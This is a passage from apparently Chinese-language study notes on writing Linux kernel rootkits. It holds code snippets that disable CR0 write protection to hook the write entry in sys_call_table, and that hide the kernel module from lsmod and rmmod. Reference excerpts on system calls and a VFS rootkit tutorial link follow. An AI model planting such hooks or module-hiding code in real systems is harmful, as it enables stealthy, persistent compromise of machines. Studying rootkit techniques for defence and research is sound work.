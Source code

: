  :  write_cr0(read_cr0() & (~ 0x10000));
 : 
 :  /* hijack functions */
 :  o_write = (void *) xchg(&sys_call_table[__NR_write],rooty_write);
 : 
 :  /* return sys_call_table to WP */
 :  write_cr0(read_cr0() | 0x10000);
 如上，关闭控制寄存器cro的写保护(WP)。然后将自己写的假的系统调用
 rooty_write和系统调用表内保存的write的地址交换。重新开启cro写保护。最后
 就是rooty_write实现了。注意函数签名要和write完全一样。这里只是示意一下，
 有bug的。
 **** 隐藏module本身
 : /* Do kernel module hiding*/
 :  list_del_init(&__this_module.list);
 :  kobject_del(&THIS_MODULE->mkobj.kobj);
 如上，将module“删除”了，这样rmmod也不能正常卸载驱动了，开发的时候要注释
 掉。 
 *** reference
 **** [[https://en.wikipedia.org/wiki/System_call][System call]]
 : Tools such as strace and truss allow a process to execute from start
 : and report all system calls the process invokes, or can attach to an
 : already running process and intercept any system call made by said
 : process if the operation does not violate the permissions of the
 : user. This special ability of the program is usually also implemented
 : with a system call, e.g. strace is implemented with ptrace or system
 : calls on files in procfs.
 **** [[http://man7.org/linux/man-pages/man2/syscalls.2.html][syscalls - Linux system calls]]
#+begin_example
 Roughly speaking, the code belonging to the system call with number
 __NR_xxx defined in /usr/include/asm/unistd.h can be found in the
 Linux kernel source in the routine sys_xxx().  (The dispatch table for
 i386 can be found in /usr/src/linux/arch/i386/kernel/entry.S.)  There
 are many exceptions, however, mostly because older system calls were
 superseded by newer ones, and this has been treated somewhat
 unsystematically.  On platforms with proprietary operating-system
 emulation, such as parisc, sparc, sparc64, and alpha, there are many
 additional system calls; mips64 also contains a full set of 32-bit
 system calls.
#+end_example
 **** [[http://www.ibm.com/developerworks/library/l-system-calls/][Kernel command using Linux system calls]]
 **** [[http://blog.csdn.net/ce123_zhouwei/article/details/8446520][linux内核中的fastcall和asmlinkage宏]]
 对x86平台来说
 : #define asmlinkage CPP_ASMLINKAGE __attribute__((regparm(0)))  
 : #define FASTCALL(x) x __attribute__((regparm(3)))  
 : #define fastcall    __attribute__((regparm(3)))  
 __attribute__((regparm(0)))：告诉gcc编译器该函数不需要通过任何寄存器来
 传递参数，参数只是通过堆栈来传递。
 __attribute__((regparm(3)))：告诉gcc编译器这个函数可以通过寄存器传递多
 达3个的参数，这3个寄存器依次为EAX、EDX 和 ECX。
 ** [[http://turbochaos.blogspot.jp/2013/10/writing-linux-rootkits-201-23.html][Writing Modern Linux Rootkits 201 - VFS]]
 本教程不仅仅是学习作者的手法，更要学习他的分析的思路。
 *** VFS的优点
#+begin_example
 Virtual file systems (VFS) are an abstraction layer to allow easy
 communication with other filesystems such as ext4, reiser fs, or other
 special filesystems like procfs. This extra layer translates easy to
 use VFS functions to their appropriate functions offered by the given
 filesystem. This allows a developer to interact solely with the VFS
 and not needing to find, handle, and support the different functions
 and types of individual filesystems.
